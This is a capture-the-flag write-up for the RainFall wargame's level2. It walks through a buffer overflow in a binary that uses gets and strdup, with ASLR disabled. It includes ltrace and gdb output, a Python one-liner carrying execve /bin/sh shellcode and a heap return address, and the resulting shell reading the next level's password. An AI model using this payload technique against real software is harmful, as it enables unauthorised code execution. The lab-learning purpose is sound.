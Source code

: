 As for the previous level, we have a call to gets which is vulnerable to buffer overflow attacks. But this time, a check is made to make sure that the return of the function does not point to an address in the stack (using the 0xb0000000 mask). However, there is a call to strdup which records the user's input on the heap and which we can exploit.

The address space layout randomization (ASLR) is off, meaning the memory addresses associated with running processes are predictable:
```
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
So, we get the address of our input registered on the heap (0x0804a008) using ltrace:
```
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7d4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6dc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6dc
puts("ok")                                                            = 3
strdup("ok")                                                          = 0x0804a008
+++ exited (status 8) +++
```
<br />
Now Using gdb, we find that there are 80 bytes needed to reach the return address:
```
python -c "print 'A' * 80 + 'ABCD'" > /tmp/exploit
```

```
(gdb) r < /tmp/exploit
Starting program: /home/user/level2/level2 < /tmp/exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDAAAAAAAAAAAAABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we need to complete our input with 59 '\x90' bytes (the 'No Operation' instruction), followed by the address of our shellcode on the heap, in the little endian convention:
```
level2@RainFall:~$ python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x90' * 59 + '\x08\xa0\x04\x08'" > /tmp/exploit
```
<br />

Finally, we just have to launch the program by passing our crafted input:

```
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
1���
    Qh//shh/bin��̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
